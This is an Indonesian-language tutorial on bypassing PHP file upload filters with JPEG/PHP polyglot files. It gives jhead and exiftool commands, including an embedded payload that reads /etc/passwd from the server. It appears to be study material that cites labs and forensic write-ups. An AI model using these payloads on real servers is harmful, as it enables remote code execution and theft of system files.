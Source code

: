 # Eksploitasi File Upload Vulnerability dengan Polyglot
#fileupload #rce #php

## Apa itu Polyglot?
Polyglot di dalam cyber security berarti file yang valid dalam beberapa bentuk format. Teknik polyglot ini dapat digunakan untuk menembus filtering dari aplikasi, terutama yang menggunakan filtering berbasis format file.  

Dalam konteks eksploitasi pada web berbasis PHP, bisa saja ada sebuah file yang valid sebagai  gambar JPEG dan juga valid sebagai file PHP atau PHAR (PHP ARchive) secara bersamaan. Hal ini dapat menimbulkan resiko yang sama dengan file upload vulnerability, yaitu remote code execution.

## Bagaimana Aplikasi Menentukan Sebuah File?
Berikut ini adalah cara aplikasi untuk menentukan sebuah file:

- **Ekstensi**, membaca file berdasarkan ekstensi filenya. Contoh `kucing.jpeg` adalah sebuah gambar, jika dilihat dari ekstensi `jpeg`-nya. Namun cara pembacaan ini kurang terpercaya, karena bisa saja sebuah file video dinamai dengan ekstensi `.pdf` misalkan. (Hayoo ngaku :p).
  
- **Magic Number**, pada Linux, teknik membaca file dilakukan dengan melihat magic numbernya. Magic number ini terletak pada bagian header awal dari sebuah file. Pada linux, kamu bisa menggunakan `hexdump` untuk membaca magic number. Contoh format file dan magic numbernya adalah:
	- PNG: `89 50 4E 47 0D 0A 1A 0A`
	- JPEG: `FF D8`. diakhiri dengan `FF D9`
	- PDF: `25 50 44 46`

## Membuat File Polyglot untuk Eksploitasi
### Image & PHP
Kita dapat menggunakan `jhead` (khusus untuk file jpg) untuk mengubah data exif dari file. Apabila pada mesin belum terdapat jhead, gunakan perintah `sudo apt install jhead` untuk menginstallnya.  

Perintah `__halt_compiler()` digunakan untuk menghetikan parse dari sisa file JPG. Kemudian agar file tersebut dibaca sebagai php, kita bisa menggunakan penamaan `file.jpg.php`.
```shell
# mengubah isi comment dari file.jpg
jhead -ce file.jpg

# melakukan edit header
<?php echo 'Hello, world!'; __halt_compiler(); ?>

# mengubah nama file menjadi ekstensi php (opsional - sesuai kebutuhan)
mv file.jpg file.jpg.php

# melihat jenis file
file file.jpg.php
```
.  

Kita juga bisa menggunakan tool [exiftool](https://www.poftut.com/how-to-install-and-use-exiftool-in-linux-windows-kali-ubuntu-mint-with-examples/). Pada Debian, cara untuk menginstall exiftool adalah `sudo apt install libimage-exiftool-perl`.  

Payload yang kita gunakan adalah untuk membaca file sensitif pada server.
```shell
# membaca metadata dengan exiftool
exiftool file.png

# mengubah metadata dengan exiftool kemudian menyimpannya sebagai polyglot file.jpg.php. Bagian "-Comment" dapat diubah sesuai keinginan.
exiftool -Comment="<?php echo 'MULAI ' . file_get_contents('/etc/passwd') . ' SELESAI'; ?>"  file.jpg -o file.jpg.php

```

## Referensi
- https://medium.com/swlh/polyglot-files-a-hackers-best-friend-850bf812dd8a#:~:text=Polyglots%2C%20in%20a%20security%20context,protection%20based%20on%20file%20types.
- https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-polyglot-web-shell-upload
- Polyglot JS & JPEG https://systemweakness.com/exploiting-xss-with-javascript-jpeg-polyglot-4cff06f8201a
- Nice reference about polyglot https://github.com/mindcrypt/polyglot
- https://systemweakness.com/exploiting-xss-with-javascript-jpeg-polyglot-4cff06f8201a
- https://onestepcode.com/injecting-php-code-to-jpg/
- Forensik vs Polyglot https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/hiding-php-code-in-image-files-revisited/
- Another Forensik vs Polyglot https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/hiding-webshell-backdoor-code-in-image-files/
